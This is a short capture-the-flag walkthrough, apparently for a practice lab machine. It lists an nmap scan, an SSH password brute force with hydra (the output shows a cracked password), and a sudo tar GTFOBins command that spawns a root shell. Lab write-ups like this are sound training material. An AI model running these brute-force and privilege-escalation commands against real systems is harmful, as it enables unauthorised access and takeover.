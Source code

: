 
1. Scan: `nmap -sC -sV -A -T4 -v -p- -oN nmap/nmap.initial $IP`

2. Open SSH, FTP, and webserver 

3. Get files from FTP

4. Run hydra for user `lin`

```
hydra -l lin -P locks.txt $IP ssh                                                                                                            3s ○ cha-eks-3/enapi1-dev
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-09 15:45:08
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.153.36:22/
[22][ssh] host: 10.10.153.36   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-09 15:45:14
```

5. SSH into the box
6. Get user flag from home
7. Run sudo -l and search for tar on gtfobins
8. Get root shell: `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`
9. Get flag from root home
